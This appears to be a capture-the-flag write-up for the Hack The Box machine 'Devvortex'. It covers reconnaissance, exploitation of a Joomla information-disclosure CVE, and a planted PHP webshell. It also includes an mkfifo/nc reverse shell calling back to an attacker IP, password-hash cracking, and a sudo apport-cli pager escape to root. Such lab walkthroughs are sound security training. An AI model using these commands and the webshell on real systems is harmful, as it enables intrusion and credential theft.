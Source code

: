 [Devvortex](https://app.hackthebox.com/machines/Devvortex) is an *easy* machine on HTB.

---

## Reconnaissance
We get an IP address `10.10.11.242`

```zsh
sudo nmap -sC -sV 10.10.11.242
```

We run a basic `nmap` scan against the target machine and find that the only open ports are 22, with SSH running, and 80 with an `nginx 1.18.0` server. We also see that the server redirected us to: `devvortex.htb`. This could be an indication that the server is VHosting and that we might be able to find other subdomains.

We add the domain to our `hosts` file so we can navigate the site using our browser.

```zsh
sudo sh -c 'echo "10.10.11.242 devvortex.htb" >> /etc/hosts'
```

Browsing on the site, it looks like a very uninteresting site which is mostly just static. There is a contact form that can be submitted, but investigating the network traffic with the developer tools shows that the submitting actually does not make any interesting request.

We perform some directory fuzzing and some vhost fuzzing to see if we can brute-force some interesting pages.

```zsh
gobuster dir -w wordlist.txt -u http://devvortex.htb/
gobuster vhost -w wordlist.txt -u 10.10.11.242 --domain devvortex.htb
```

The subdirectory scan finds the pages we already knew about and some additional ones that mostly return empty pages or 403s. The vohst fuzzing tells us there is a subdomain also running on this server: `dev.devvortex.htb` 

Adding this to our `hosts` file and opening the page in the browser reveals a similar but differently styled static webpage. Again, no interesting content can be found at all. When trying another directory fuzzing scan, we get very slow response times, making the scan take a large time. To prevent unnecessary waits like that, we can look at `/robots.txt` as that usually contains some interesting directories as well.

In the `robots.txt` file we learn that the webpage has been created using `Joomla!`. There is an `/administrator` page where one can administer the Joomla! setup. When navigating there we're met with a login screen and unfortunately non of the basic default credentials seem to be valid.

## Access to the administrator Joomla! account

Looking up the Joomla! software online reveals [2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752) which is a vulnerability that lets us read sensitive information, including username and password, from the joomla `mysql` database in plaintext. The exploit (and road to code execution) is explained [here](https://vulncheck.com/blog/joomla-for-rce). We use `msfconsole` from MetaSploit to launch [this exploit script](https://www.exploit-db.com/exploits/51334) for this vulnerability. We can use the `check` function to indeed confirm that the version of Joomla on this server is vulnerable. 

The script shows us the login credentials for a user called `lewis`. On the [source](https://vulncheck.com/blog/joomla-for-rce) mentioned earlier, they explain that if the `mysql` database is internet facing, we can use these credentials to change the password of the `Super User` (administrator) of the Joomla! application. The database is not internet facing, however in the info gained from the exploit we learn that `lewis` is also a username for the Joomla! application. Turns out the Joomla account for `lewis` uses the same password and we can login into the `/administrator` portal.

## RCE and Reverse Shell

From here, the source mentioned earlier explains clearly how we can get RCE going. We can edit the template for the `dev.devvortex.htb` site and add in some malicious `php` code that gets us a webshell. With this webshell we can then have the system create a reverse shell into our machine. We change the `/error.php` file for the template and include this (url-encoding so sending over the reverse shell command is easier)

```php
$decodedCmd = urldecode($_GET['cmd']);
system($decodedCmd);
```

We first check whether we indeed have a webshell by trying:
```zsh
curl dev.devvortex.htb/error.php\?cmd\=whoami
```
Which indeed returns `www-data` as expected. The let's create an `nc` listener and activate the reverse shell with the url-encoding of `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.100 1234 >/tmp/f`
```zsh
nc -lvnp 1234
curl dev.devvortex.htb/error.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.15.100%201234%20%3E%2Ftmp%2Ff
```

## User pwn
On the system, we see that there is a `/home/logan/` directory which has the `user.txt` flag that we're after. We do not know of any password for the `logan` user. We do have `mysql` credentials for the `lewis` user and so we open the database as `lewis` as there might be something interesting. 

```zsh
mysql -u lewis -p
```

We use `show databases;` and see there is a `joomla` database, which is also the one we extracted some values from earlier. In the `.._users` table we find the two users `lewis` and `logan` and their hashed passwords. Let's download the hashed password for `logan`, use `john` to brute-force it and hope they use the same password for their login on the machine.

```zsh
john -w:rockyou.txt hash.txt
```
`john` is able to determine the type of encryption `BCrypt` and find the right password. Using the same password with `su logan` indeed logs us in as `logan` and lets us read the `user.txt` flag.

## Privilege escalation
Checking `sudo -l` (one of the first things I always check), we find that we can run `apport-cli` as root. Looking this program up online tells us that it uses a pager and thus we can get a root shell going through this pager. We use:

```zsh
sudo apport-cli --file-bug
```
We can generate an arbitrary bug report and view it in the pager. Now typing `!bin/bash` in the pager gets us a shell as root. We can now read the `root.txt` file in the `/root` directory and we have pwned the machine!